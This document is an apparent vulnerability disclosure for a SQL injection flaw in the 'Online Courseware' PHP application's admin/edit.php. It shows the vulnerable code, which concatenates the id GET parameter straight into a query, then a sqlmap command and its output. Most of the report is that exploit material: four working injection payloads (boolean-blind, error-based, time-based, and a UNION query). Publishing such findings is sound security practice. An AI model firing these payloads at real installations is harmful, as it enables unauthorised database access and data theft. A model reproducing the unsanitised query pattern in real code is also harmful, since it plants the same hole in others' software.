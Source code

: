 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware - SQL Injection on (admin/edit.php id parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
admin/edit.php 

On this page, id parameter is vulnerable to SQL Injection Attack 
### Source code(pcci/admin/edit.php):
```
$id=$_GET['id'];
$results = mysqli_query($conn,"SELECT * FROM student WHERE id='$id'");
```
### Proof of vulnerability(Verify using the sqlmap tool after logining ):
#### -> sqlmap -u http://localhost/onlinecourseware/pcci/admin/edit.php?id=2 --batch
### Output:
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=2' AND 1758=1758 AND 'Ugrm'='Ugrm

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=2' OR (SELECT 6821 FROM(SELECT COUNT(*),CONCAT(0x7170707a71,(SELECT (ELT(6821=6821,1))),0x71766a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'Fbkr'='Fbkr

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2' AND (SELECT 3945 FROM (SELECT(SLEEP(5)))vvdL) AND 'ptVW'='ptVW

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: id=2' UNION ALL SELECT NULL,NULL,CONCAT(0x7170707a71,0x78477974414d4b646d57614f4b516e727977464f7761666a5266664853557342764244504773726d,0x71766a7671),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```
